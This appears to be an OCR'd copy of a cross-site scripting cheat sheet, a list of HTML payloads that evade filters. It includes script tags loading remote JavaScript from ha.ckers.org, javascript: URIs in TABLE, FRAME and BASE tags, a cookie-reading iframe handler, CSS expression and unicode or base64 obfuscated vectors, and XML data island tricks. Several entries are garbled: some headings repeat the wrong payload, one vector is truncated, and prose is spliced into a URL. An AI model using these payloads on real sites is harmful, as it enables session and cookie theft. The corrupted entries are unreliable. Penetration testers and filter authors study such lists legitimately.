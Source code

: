 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>```
##IFRAME Event based
```<IFRAME SRC=##onmouseover="alert(document.cookie)"></IFRAME>```

##FRAME
```<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>```

##TABLE
```<TABLE BACKGROUND="javascript:alert('XSS')">```

##TD
```<TABLE BACKGROUND="javascript:alert('XSS')">```

##DIV background-image
```<TABLE BACKGROUND="javascript:alert('XSS')">```

##DIV background-image with unicoded XSS exploit
```<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.```

##DIV background-image plus extra characters
```<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">```

##DIV expression
```<DIV STYLE="width: expression(alert('XSS'));">```


##"Downlevel-hidden block"
```<!--[if gte IE 4]> <SCRIPT>alert('XSS');</SCRIPT> <![endif]-->```

##BASE tag
```<BASE HREF="javascript:alert('XSS');//">```

##Object tag
```<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>```

##Using an EMBED tag you can embed a Flash movie that contains XSS
```<EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).:org/xss.swf" AllowScriptAccess="always"></EMBED>```

##You can EMBED SVG which can contain your XSS vector
``<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

##Using ActionScript inside flash can obfuscate your XSS vector
##N/A

##XML data island with CDATA obfuscation
```<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>```

##Locally hosted XML with embedded JavaScript that is generated using an XML data island
```<XML SRC="xsstest.xml" ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>```

##XSS using HTML quote encapsulatio
```<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>```


